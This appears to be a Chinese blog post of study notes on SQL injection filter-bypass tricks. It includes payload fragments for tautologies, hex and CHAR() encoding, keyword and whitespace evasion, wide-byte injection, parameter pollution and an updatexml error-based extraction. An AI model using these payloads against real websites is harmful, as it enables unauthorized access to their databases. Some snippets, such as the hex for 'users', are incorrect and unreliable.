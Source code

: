 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息  
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
### 查找有用的列名  
	where column_name LIKE ‘%PASS%’  
    
遇到单引号转译，可以考虑使用16进制绕过  
	table_name=’users ’——》table_name=0×757365727  
避开过滤  
	输入单引号没反应，尝试“  
单引号被阻止：  
1、where name=‘Marcus’ 可以使用ascii 替代字符串不必使用单引号 ‘a’->CHR(97)  

2、在mysql中连接字符串是CONCAT函数，select name=concat(CHAR(97),char(114))  

	oracle中 select name=chr(97)||chr(114)  
    
	Ms-SQL中 select name=char(97)+char(114)  
    

--注释符被阻止时考虑闭合：  

     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a   
     
单纯的闭合  

    ‘ playload and '
=号 被禁止：  

    使用<>（不等于）例：!(table_schema<>database())
关键字过滤：  

  select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54  

                                   
  空格过滤：  
  
    1、使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    2、在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
    3、 %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true  
  

在url中使用--注释时，可能会需要使用--+才能成功注释  


and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：  

    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)：  

    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1

